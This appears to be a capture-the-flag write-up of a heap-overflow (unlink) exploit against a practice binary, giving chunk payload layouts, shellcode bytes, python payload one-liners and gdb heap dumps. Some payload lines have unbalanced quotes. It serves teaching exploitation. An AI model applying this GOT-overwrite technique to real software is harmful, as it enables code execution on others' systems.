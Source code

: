 **Payload** 

first chunk = [ AAAA ] 
second chunk = [ prev_size + size + junk + shellcode + junk ] 
third chunk = [ -4 + -4 + junk + ( got address - 12 ) + shellcode address ]
 
 - by changing previous chunk size and chunk size for third chunk will corrupt metadata of the chunk

:grey_question: First chunk :grey_question:

```
$(python -c 'print "AAAA "')
```
:grey_question: Second Chunk :grey_question:

 - payload to be written for second chunk
	 - `16 bytes` junk +`6 bytes` of shellcode + `10 bytes` of useless data = 32 bytes
	 - `4 bytes` of useless data ( prev_chunk_size for third chunk )
	 - `4 bytes` of third chunk's size
 - `push 0x8048864` -> push winner address to stack
 - `ret` -> top of the stack's value as next instruction pointer
 - use [Online Diassembler/Assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)
 - we got shellcode as `"\x68\x64\x88\x04\x08\xc3"` < 8 bytes

```
$(python -c 'print "AAAA "+"\xff"*10'+"\x68\x64\x88\x04\x08\xc3"+"\xff"*10')
```
 - `0xfffffffc = -4 ` -> negative value larger than 64 bytes
```
$(python -c 'print "AAAA "+"\xff"*10'+"\x68\x64\x88\x04\x08\xc3"+"\xff"*10+"\xfc\xff\xff\xff"*2')
```
 
:grey_question: Third chunk :grey_question:

 - payload to be written for third chunk
	 - `4 bytes` of useless data + ( `4 bytes` of got address - `12` ) + `4 bytes` of shellcode address
	 - `"\xff"*4` + `0x804b128-12 = 0x804b11c` +  `\x40\xc0\x04\x08`

```
$(python -c 'print "AAAA "+"\xff"*10'+"\x68\x64\x88\x04\x08\xc3"+"\xff"*10+"\xfc\xff\xff\xff"*2'+" "+"\xff"*4+"\x1c\xb1\x04\x08"+"\x40\xc0\x04\x08"')
```
:grey_question: Before Free :grey_question:
```
0x804c000:      0x00000000      0x00000029      0x41414141      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0xffffffff      0xffffffff      0xffffffff      0xffffffff
0x804c040:      0x04886468      0xffffc308      0xffffffff      0xffffffff
0x804c050:      0xfffffffc      0xfffffffc      0xffffffff      0x0804b11c
0x804c060:      0x0804c040      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
```
:grey_question: Free'd third chunk :grey_question:

```
0x804c000:      0x00000000      0x00000029      0x41414141      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0xffffffff      0xffffffff      0xffffffff      0xffffffff
0x804c040:      0x04886468      0xffffc308      0x0804b11c      0xfffffff8
0x804c050:      0xfffffffc      0xfffffffc      0xfffffff9      0x0804b194
0x804c060:      0x0804b194      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
```
- `0x0804b11c` is written in second chunk
